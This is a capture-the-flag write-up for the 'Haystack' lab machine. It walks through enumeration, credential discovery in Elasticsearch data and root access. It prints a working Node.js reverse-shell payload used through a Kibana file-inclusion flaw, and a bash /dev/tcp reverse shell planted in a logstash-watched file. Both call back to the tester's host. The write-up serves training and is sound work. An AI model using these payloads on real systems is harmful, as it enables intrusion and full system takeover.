

---
search:
  exclude: true
---
# Haystack Writeup

## Haystack Introduction :

Haystack is an easy Linux box that was released back in June 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
      → nmap -F 10.10.10.115
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-15 10:05 GMT
      Nmap scan report for 10.10.10.115
      Host is up (0.81s latency).
      Not shown: 98 filtered ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 17.50 seconds
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
      → nmap -sCV -p22,80 10.10.10.115
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-15 10:06 GMT
      Nmap scan report for 10.10.10.115
      Host is up (0.11s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
      | ssh-hostkey:
      |   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
      |   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
      |_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
      80/tcp open  http    nginx 1.12.2
      |_http-server-header: nginx/1.12.2
      |_http-title: Site doesn't have a title (text/html).
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds
    

Let's add haystack.htb to our /etc/hosts file.
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
    → echo "10.10.10.115 haystack.htb" >> /etc/hosts
    

## **Part 2 : Getting User Access**

Let's see which directories we can find on the 80th port : using the dirsearch command.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
      → dirsearch -u http://10.10.10.115/ -t 50 -e txt,php,html,js
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: txt, php, html, js | HTTP method: get | Threads: 50 | Wordlist size: 7126
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-02-15_10-10-36.log
    
      Target: http://10.10.10.115/
    
      [10:10:37] Starting:
      [10:10:39] 400 -  173B  - /%2e%2e/google.com
      [10:10:55] 200 -   55B  - /index.md
    
      Task Completed
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
    → nikto -h http://haystack.htb/
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.10.10.115
    + Target Hostname:    haystack.htb
    + Target Port:        80
    + Start Time:         2020-02-15 10:11:20 (GMT0)
    ---------------------------------------------------------------------------
    + Server: nginx/1.12.2
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)/
    
    

Not much to see on that port from either dirsearch nor nikto, let's poke around the box a little further 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → curl -sk http://haystack.htb/robots.txt | grep nginx
      <****hr> <****center>nginx/1.12.2 <****/center>

looks like we have nginx 1.12.2 running on this machine, just like how our nmap scan suggested. on index.html of port 80, we find a jpg file named needle, we download it locally and examine it with exiftool.
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → wget http://haystack.htb/needle.jpg
      --2020-02-15 10:18:22--  http://haystack.htb/needle.jpg
      Resolving haystack.htb (haystack.htb)... 10.10.10.115
      Connecting to haystack.htb (haystack.htb)|10.10.10.115|:80... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 182982 (179K) [image/jpeg]
      Saving to: ‘needle.jpg’
    
      needle.jpg                    100%[===============================================>] 178.69K   155KB/s    in 1.2s
    
      2020-02-15 10:18:24 (155 KB/s) - ‘needle.jpg’ saved [182982/182982]
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → exiftool needle.jpg
      ExifTool Version Number         : 11.86
      File Name                       : needle.jpg
      Directory                       : .
      File Size                       : 179 kB
      File Modification Date/Time     : 2019:01:25 23:37:55+00:00
      File Access Date/Time           : 2020:02:15 10:18:49+00:00
      File Inode Change Date/Time     : 2020:02:15 10:18:24+00:00
      File Permissions                : rw-r--r--
      File Type                       : JPEG
      File Type Extension             : jpg
      MIME Type                       : image/jpeg
      JFIF Version                    : 1.01
      Exif Byte Order                 : Big-endian (Motorola, MM)
      X Resolution                    : 96
      Y Resolution                    : 96
      Resolution Unit                 : inches
      Software                        : paint.net 4.1.1
      User Comment                    : CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 90.
      Image Width                     : 1200
      Image Height                    : 803
      Encoding Process                : Baseline DCT, Huffman coding
      Bits Per Sample                 : 8
      Color Components                : 3
      Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
      Image Size                      : 1200x803
      Megapixels                      : 0.964
    
    

not so many useful infos there, let's run the strings command aswell 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → strings needle.jpg
    
      [...]
      STW5
      *Oo!;.o|?>
      .n2FrZ
      rrNMz
      #=pMr
      BN2I
      ,'*'
      I$f2/<****-iy
      bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==

looks like a base64 string right at the end, let's decrypt it using base64 -d 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → echo "bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==" | base64 -d
      la aguja en el pajar es "clave"
    

Translating it from spanish it says "the needle in the haystack is "key" "
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → nmap -F 10.10.10.115 --top-ports 10000 -vvv
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-15 10:14 GMT
      Initiating Ping Scan at 10:14
      Scanning 10.10.10.115 [4 ports]
      Completed Ping Scan at 10:14, 0.14s elapsed (1 total hosts)
      Initiating SYN Stealth Scan at 10:14
      Scanning haystack.htb (10.10.10.115) [8320 ports]
      Discovered open port 80/tcp on 10.10.10.115
      Discovered open port 22/tcp on 10.10.10.115
      Discovered open port 9200/tcp on 10.10.10.115
      Completed SYN Stealth Scan at 10:15, 29.20s elapsed (8320 total ports)
      Nmap scan report for haystack.htb (10.10.10.115)
      Host is up, received echo-reply ttl 63 (0.11s latency).
      Scanned at 2020-02-15 10:14:40 GMT for 30s
      Not shown: 8317 filtered ports
      Reason: 8283 no-responses and 34 host-prohibiteds
      PORT     STATE SERVICE REASON
      22/tcp   open  ssh     syn-ack ttl 63
      80/tcp   open  http    syn-ack ttl 63
      9200/tcp open  wap-wsp syn-ack ttl 63
    
      Read data files from: /usr/bin/../share/nmap
      Nmap done: 1 IP address (1 host up) scanned in 29.50 seconds
                 Raw packets sent: 16621 (731.300KB) | Rcvd: 330 (73.816KB)
    

looks like we have another port to work with, 9200 is running something, let's find out what it is with the -sCV flag.
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → nmap -sCV -p9200 10.10.10.115
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-15 10:16 GMT
      Nmap scan report for haystack.htb (10.10.10.115)
      Host is up (0.094s latency).
    
      PORT     STATE SERVICE VERSION
      9200/tcp open  http    nginx 1.12.2
      | http-methods:
      |_  Potentially risky methods: DELETE
      |_http-server-header: nginx/1.12.2
      |_http-title: Site doesn't have a title (application/json; charset=UTF-8).
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 15.14 seconds
    
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → curl -sk http://haystack.htb:9200
      {
        "name" : "iQEYHgS",
        "cluster_name" : "elasticsearch",
        "cluster_uuid" : "pjrX7V_gSFmJY-DxP4tCQg",
        "version" : {
          "number" : "6.4.2",
          "build_flavor" : "default",
          "build_type" : "rpm",
          "build_hash" : "04711c2",
          "build_date" : "2018-09-26T13:34:09.098244Z",
          "build_snapshot" : false,
          "lucene_version" : "7.4.0",
          "minimum_wire_compatibility_version" : "5.6.0",
          "minimum_index_compatibility_version" : "5.0.0"
        },
        "tagline" : "You Know, for Search"
      }
    

looks like we have to deal with an [elasticsearch](https://www.elastic.co/guide/en/elasticsearch/reference/current/targz.html) service, running curl once more into the /_cat/indices?v URL we find some information in a cluster. 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → curl -sk http://haystack.htb:9200/_cat/indices/\?v
    
      health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
      green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
      yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
      yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
    

we see that indexes .kibana , quotes and bank are also opened, let's investigate them.
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
    → curl -X POST http://haystack.htb:9200/\/_search
    {"error":{"root_cause":[{"type":"index_not_found_exception","reason":"no such index","resource.type":"index_or_alias","resource.id":"index","index_uuid":"_na_","index":"index"}],"type":"index_not_found_exception","reason":"no such index","resource.type":"index_or_alias","resource.id":"index","index_uuid":"_na_","index":"index"},"status":404}#
    λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
    → curl -X POST http://haystack.htb:9200/bank/_search
    {"took":18,"timed_out":false,"_shards":{"total":5,"successful":5,"skipped":0,"failed":0},"hits":{"total":1000,"max_score":1.0,"hits":[{"_index":"bank","_type":"account","_id":"25","_score":1.0,"_source":{"account_number":25,"balance":40540,"firstname":"Virginia","lastname":"Ayala","age":39,"gender":"F","address":"171 Putnam Avenue","employer":"Filodyne","email":"virginiaayala@filodyne.com","city":"Nicholson","state":"PA"}},{"_index":"bank","_type":"account","_id":"44","_score":1.0,"_source":{"account_number":44,"balance":34487,"firstname":"Aurelia","lastname":"Harding","age":37,"gender":"M","address":"502 Baycliff Terrace","employer":"Orbalix","email":"aureliaharding@orbalix.com","city":"Yardville","state":"DE"}},{"_index":"bank","_type":"account","_id":"99","_score":1.0,"_source":{"account_number":99,"balance":47159,"firstname":"Ratliff","lastname":"Heath","age":39,"gender":"F","address":"806 Rockwell Place","employer":"Zappix","email":"ratliffheath@zappix.com","city":"Shaft","state":"ND"}},{"_index":"bank","_type":"account","_id":"119","_score":1.0,"_source":{"account_number":119,"balance":49222,"firstname":"Laverne","lastname":"Johnson","age":28,"gender":"F","address":"302 Howard Place","employer":"Senmei","email":"lavernejohnson@senmei.com","city":"Herlong","state":"DC"}},{"_index":"bank","_type":"account","_id":"126","_score":1.0,"_source":{"account_number":126,"balance":3607,"firstname":"Effie","lastname":"Gates","age":39,"gender":"F","address":"620 National Drive","employer":"Digitalus","email":"effiegates@digitalus.com","city":"Blodgett","state":"MD"}},{"_index":"bank","_type":"account","_id":"145","_score":1.0,"_source":{"account_number":145,"balance":47406,"firstname":"Rowena","lastname":"Wilkinson","age":32,"gender":"M","address":"891 Elton Street","employer":"Asimiline","email":"rowenawilkinson@asimiline.com","city":"Ripley","state":"NH"}},{"_index":"bank","_type":"account","_id":"183","_score":1.0,"_source":{"account_number":183,"balance":14223,"firstname":"Hudson","lastname":"English","age":26,"gender":"F","address":"823 Herkimer Place","employer":"Xinware","email":"hudsonenglish@xinware.com","city":"Robbins","state":"ND"}},{"_index":"bank","_type":"account","_id":"190","_score":1.0,"_source":{"account_number":190,"balance":3150,"firstname":"Blake","lastname":"Davidson","age":30,"gender":"F","address":"636 Diamond Street","employer":"Quantasis","email":"blakedavidson@quantasis.com","city":"Crumpler","state":"KY"}},{"_index":"bank","_type":"account","_id":"208","_score":1.0,"_source":{"account_number":208,"balance":40760,"firstname":"Garcia","lastname":"Hess","age":26,"gender":"F","address":"810 Nostrand Avenue","employer":"Quiltigen","email":"garciahess@quiltigen.com","city":"Brooktrails","state":"GA"}},{"_index":"bank","_type":"account","_id":"222","_score":1.0,"_source":{"account_number":222,"balance":14764,"firstname":"Rachelle","lastname":"Rice","age":36,"gender":"M","address":"333 Narrows Avenue","employer":"Enaut","email":"rachellerice@enaut.com","city":"Wright","state":"AZ"}}]}}
    

as you can see, this dumps alot of json data, let's use a tool called [elasticdump](https://github.com/taskrabbit/elasticsearch-dump) instead. 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
    → npm install elasticdump -g
    npm WARN deprecated request@2.88.2: request has been deprecated, see https://github.com/request/request/issues/3142
    npm WARN deprecated s3signed@0.1.0: This module is no longer maintained. It is provided as is.
    /usr/local/bin/elasticdump -> /usr/local/lib/node_modules/elasticdump/bin/elasticdump
    /usr/local/bin/multielasticdump -> /usr/local/lib/node_modules/elasticdump/bin/multielasticdump
    + elasticdump@6.21.0
    added 103 packages from 146 contributors in 12.289s
    
    λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
    → elasticdump --input=http://10.10.10.115:9200/quotes --output=quotes.json --type=data
    Sat, 15 Feb 2020 10:45:50 GMT | starting dump
    Sat, 15 Feb 2020 10:45:51 GMT | got 100 objects from source elasticsearch (offset: 0)
    Sat, 15 Feb 2020 10:45:51 GMT | sent 100 objects to destination file, wrote 100
    Sat, 15 Feb 2020 10:45:52 GMT | got 100 objects from source elasticsearch (offset: 100)
    Sat, 15 Feb 2020 10:45:52 GMT | sent 100 objects to destination file, wrote 100
    Sat, 15 Feb 2020 10:45:52 GMT | got 53 objects from source elasticsearch (offset: 200)
    Sat, 15 Feb 2020 10:45:52 GMT | sent 53 objects to destination file, wrote 53
    Sat, 15 Feb 2020 10:45:52 GMT | got 0 objects from source elasticsearch (offset: 253)
    Sat, 15 Feb 2020 10:45:52 GMT | Total Writes: 253
    Sat, 15 Feb 2020 10:45:52 GMT | dump complete
    
    

earlier on, needle.jpg yielded a hint for us, which was the word "clave" , let's grep for it 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
      → cat quotes.json| grep clave
      {"_index":"quotes","_type":"quote","_id":"111","_score":1,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
      {"_index":"quotes","_type":"quote","_id":"45","_score":1,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
    

looks like we have 2 base64 strings to decrypt, let's see what we get 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d
      pass: spanish.is.key
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → echo "dXNlcjogc2VjdXJpdHkg" | base64 -d
      user: security
    

looks like we have credentials ! security:spanish.is.key, let's try to log in via ssh 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Haystack]
      → ssh security@haystack.htb
      The authenticity of host 'haystack.htb (10.10.10.115)' can't be established.
      ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added 'haystack.htb,10.10.10.115' (ECDSA) to the list of known hosts.
      security@haystack.htb's password:
      Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
      [security@haystack ~]$ uname -a
      Linux haystack 3.10.0-957.1.3.el7.x86_64 #1 SMP Thu Nov 29 14:49:43 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
      [security@haystack ~]$ cat /home/security/user.txt
      04XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have the user flag :) 

## **Part 3 : Getting Root Access**

In order to escalate privileges on the box, let's see if we can run the sudo -l command.
    
    
      [security@haystack ~]$ sudo -l
    
      We trust you have received the usual lecture from the local System
      Administrator. It usually boils down to these three things:
    
          #1) Respect the privacy of others.
          #2) Think before you type.
          #3) With great power comes great responsibility.
    
      [sudo] password for security:
      Sorry, user security may not run sudo on haystack.
    

Out of luck, let's try printing out the contents of /etc/passwd 
    
    
      [security@haystack ~]$ cat /etc/passwd
      root:x:0:0:root:/root:/bin/bash
      bin:x:1:1:bin:/bin:/sbin/nologin
      daemon:x:2:2:daemon:/sbin:/sbin/nologin
      adm:x:3:4:adm:/var/adm:/sbin/nologin
      lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
      sync:x:5:0:sync:/sbin:/bin/sync
      shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
      halt:x:7:0:halt:/sbin:/sbin/halt
      mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
      operator:x:11:0:operator:/root:/sbin/nologin
      games:x:12:100:games:/usr/games:/sbin/nologin
      ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
      nobody:x:99:99:Nobody:/:/sbin/nologin
      systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
      dbus:x:81:81:System message bus:/:/sbin/nologin
      polkitd:x:999:998:User for polkitd:/:/sbin/nologin
      sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
      postfix:x:89:89::/var/spool/postfix:/sbin/nologin
      chrony:x:998:996::/var/lib/chrony:/sbin/nologin
      security:x:1000:1000:security:/home/security:/bin/bash
      elasticsearch:x:997:995:elasticsearch user:/nonexistent:/sbin/nologin
      logstash:x:996:994:logstash:/usr/share/logstash:/sbin/nologin
      nginx:x:995:993:Nginx web server:/var/lib/nginx:/sbin/nologin
      kibana:x:994:992:kibana service user:/home/kibana:/sbin/nologin
    

let's check if there are any processes running for the user kibana using ps aux 
    
    
      [security@haystack ~]$ ps aux | grep kibana
      kibana     6359  1.2  5.2 1344552 203872 ?      Ssl  06:05   0:36 /usr/share/kibana/bin/../node/bin/node --no-warnings /usr/share/kibana/bin/../src/cli -c /etc/kibana/kibana.yml
      security  17023  0.0  0.0 112708   972 pts/0    R+   06:56   0:00 grep --color=auto kibana
    

kibana has a config file stored in /etc/kibana/kibana.yml , let's try to read it's contents 
    
    
      [security@haystack ~]$ cat /etc/kibana/kibana.yml | grep port
    # Kibana is served by a back end server. This setting specifies the port to use.
    server.port: 5601
    

Looks like there is an opened port on localhost (127.0.0.1) that is being used, haystack.htb:9200 revealed us earlier that it was running as version 6.4.2 which indicates an outdated service, with certain vulnerabilities for us to [exploit](https://github.com/mpgn/CVE-2018-17246)

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
    → nano nihilist.js
    
    
    
      (function(){
          var net = require("net"),
              cp = require("child_process"),
              sh = cp.spawn("/bin/sh", []);
          var client = new net.Socket();
          client.connect(9001, "10.10.14.10", function(){
              client.pipe(sh.stdin);
              sh.stdout.pipe(client);
              sh.stderr.pipe(client);
          });
          return /a/; // Prevents the Node.js application form crashing
      })();
    
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
    → python -m SimpleHTTPServer 8080
    Serving HTTP on 0.0.0.0 port 8080 ...
    

_Terminal 2:_
    
    
      [security@haystack]$ cd /tmp && curl http://10.10.14.10:8080/nihilist.js > nihilist.js
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100   382  100   382    0     0   1916      0 --:--:-- --:--:-- --:--:--  1929
    [security@haystack tmp]$ ls
    nihilist.js
    hsperfdata_root
    jruby-6366
    systemd-private-a242aff03786477b8fe05cbbaae15c33-chronyd.service-bOL8g5
    systemd-private-a242aff03786477b8fe05cbbaae15c33-elasticsearch.service-DDSUOI
    systemd-private-a242aff03786477b8fe05cbbaae15c33-nginx.service-Vji3Rm
    vmware-root
    vmware-root_6751-3887503186
    

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
    → cat nihilist.js
    (function(){
        var net = require("net"),
            cp = require("child_process"),
            sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        client.connect(9001, "10.10.14.10", function(){
            client.pipe(sh.stdin);
            sh.stdout.pipe(client);
            sh.stderr.pipe(client);
        });
        return /a/; // Prevents the Node.js application form crashing
    })();
    
    λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    

_Terminal 2:_
    
    
      [security@haystack tmp]$ curl 127.0.0.1:5601/api/console/api_server?apis=../../../../../../../tmp/nihilist.js
    

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.115] 55450
    uname -a
    Linux haystack 3.10.0-957.1.3.el7.x86_64 #1 SMP Thu Nov 29 14:49:43 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    cat /root/root.txt
    cat: /root/root.txt: Permiso denegado
    

it connected back ! but we still need to escalate privileges... let's check out /etc/logstash/conf.d/
    
    
      bash-4.2$ pwd
      pwd
      /
      bash-4.2$ cd /etc/logstash/conf.d
      cd /etc/logstash/conf.d
      bash-4.2$ ls -lash
      ls -lash
      total 12K
         0 drwxrwxr-x. 2 root kibana  62 jun 24  2019 .
         0 drwxr-xr-x. 3 root root   183 jun 18  2019 ..
      4,0K -rw-r-----. 1 root kibana 131 jun 20  2019 filter.conf
      4,0K -rw-r-----. 1 root kibana 186 jun 24  2019 input.conf
      4,0K -rw-r-----. 1 root kibana 109 jun 24  2019 output.conf
    

here we see a few config files, let's see what their contents are. 
    
    
      bash-4.2$ cat input.conf
      cat input.conf
      input {
      	file {
      		path => "/opt/kibana/logstash_*"
      		start_position => "beginning"
      		sincedb_path => "/dev/null"
      		stat_interval => "10 second"
      		type => "execute"
      		mode => "read"
      	}
      }
      bash-4.2$ cat output.conf
      cat output.conf
      output {
      	if [type] == "execute" {
      		stdout { codec => json }
      		exec {
      			command => "%{comando} &"
      		}
      	}
      }
      bash-4.2$ cat filter.conf
      cat filter.conf
      filter {
      	if [type] == "execute" {
      		grok {
      			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
      		}
      	}
      }
    

looking at the config files it means that we can have code execution from the /opt/kibana directory if we create a reverse shell script named logstash_a, so let's do it : 
    
    
      bash-4.2$ cd /opt/kibana
    cd /opt/kibana
    bash-4.2$ echo 'Ejecutar comando : bash -i >& /dev/tcp/10.10.14.10/9002 0>&1' > logstash_a
    echo 'bash -i >& /dev/tcp/10.10.14.10/9002 0>&1' > logstash_a
    bash-4.2$ cat logstash_a
    cat logstash_a
    bash -i >& /dev/tcp/10.10.14.10/9002 0>&1
    bash-4.2$ chmod +x logstash_a
    chmod +x logstash_a
    bash-4.2$ ls -lash
    ls -lash
    total 4,0K
       0 drwxr-x---. 2 kibana kibana 24 feb 15 10:43 .
       0 drwxr-xr-x. 3 root   root   20 jun 18  2019 ..
    4,0K -rwxr-xr-x. 1 kibana kibana 61 feb 15 10:43 logstash_a
    

Waiting a bit more than the announced 10s in the config files earlier, for the connection to come back to us, but on the 9002nd port, with another netcat command ready to catch it
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Haystack]
      → nc -lvnp 9002
      listening on [any] 9002 ...
      ls
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.115] 57954
      bash: no hay control de trabajos en este shell
      [root@haystack /]#
      [root@haystack /]# cat /root/root.txt
      cat /root/root.txt
      3fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

and that's it ! we have been able to escalate privileges and printing out the root flag of the box. 

## **Conclusion**

Here we can see the progress graph :

